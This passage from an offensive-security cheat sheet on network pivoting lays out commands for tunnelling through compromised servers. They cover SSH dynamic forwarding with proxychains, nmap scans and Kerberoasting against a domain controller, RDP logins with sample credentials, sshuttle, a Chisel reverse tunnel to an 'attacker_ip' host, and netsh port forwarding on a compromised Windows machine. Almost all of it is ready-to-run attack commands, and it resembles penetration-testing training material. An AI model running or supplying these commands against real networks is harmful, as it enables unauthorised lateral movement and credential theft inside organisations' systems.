 ### 2. SSH Jump Hosts
```bash
# Direct jump through multiple hosts
ssh -J user1@pivot1,user2@pivot2 user3@final_target

# ProxyCommand method
ssh -o ProxyCommand="ssh -W %h:%p user@pivot_server" user@internal_server
```

## Practical Pivoting Scenarios

### Scenario 1: Web Server to Domain Controller
```bash
# 1. Compromise web server (192.168.1.100)
# 2. Discover domain controller (192.168.1.10)

# Create SSH tunnel
ssh -f -N -D 9050 www-data@192.168.1.100

# Configure proxychains
echo "socks4 127.0.0.1 9050" >> /etc/proxychains4.conf

# Scan domain controller through pivot
proxychains nmap -p 88,135,139,389,445 192.168.1.10

# Kerberoasting through pivot
proxychains GetUserSPNs.py DOMAIN/user:password -dc-ip 192.168.1.10 -request

# RDP access through pivot
proxychains xfreerdp /u:administrator /p:'Password123!' /v:192.168.1.10
```

### Scenario 2: DMZ to Internal Network
```bash
# 1. Compromise DMZ server (10.10.10.5 and 192.168.1.5)
# 2. Access internal network (192.168.1.0/24)

# Method 1: SSH Dynamic Forwarding
ssh -f -N -D 9050 -i pivot root@10.10.10.5

# Method 2: Sshuttle (cleaner for full network access)
sshuttle -r root@10.10.10.5 192.168.1.0/24

# Method 3: Chisel
# On attacker:
./chisel server --reverse --port 8000
# On pivot:
./chisel client attacker_ip:8000 R:9050:socks
```

### Scenario 3: Windows Pivot with Netsh
```cmd
# On compromised Windows machine
# Port forwarding using netsh
netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=192.168.1.10

# Check port proxy rules  
netsh interface portproxy show all

# Delete rule when done
netsh interface portproxy delete v4tov4 listenport=3389 listenaddress=0.0.0.0
```